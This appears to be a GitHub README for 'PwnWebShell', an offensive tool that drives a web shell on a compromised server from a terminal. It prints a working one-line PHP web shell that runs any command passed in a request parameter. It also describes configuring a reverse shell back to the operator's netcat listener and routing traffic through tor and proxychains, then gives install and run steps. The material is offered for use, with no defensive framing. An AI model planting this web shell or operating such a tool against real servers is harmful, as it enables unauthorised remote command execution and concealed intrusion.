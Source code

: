 # PwnWebShell
Tool to facilitate the management of our webshell from a terminal.

All we need, is to upload to the committed server a PHP structure like the following to execute commands:

```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

After that specify the url where the .php file is located in the script variable called url_webshell, example url_webshell="https://example.com/shell.php"

![demo](https://raw.githubusercontent.com/DarkTrojanDev/PwnWebShell/main/img/url_example.png)

You can configure the reverse shell, specify your IP address and the listening port with netcat.

![demo](https://raw.githubusercontent.com/DarkTrojanDev/PwnWebShell/main/img/reverse.png)

**Requirements - curl tor proxychains rlwrap**

`sudo apt install curl tor proxychains-ng rlwrap -y`

**Installation**

  
1. `git clone https://github.com/DarkTrojanDev/PwnWebShell.git`


2. `chmod +x pwnwebshell.sh`


**Execution**
	
1. `sudo rlwrap ./pwnwebshell.sh`

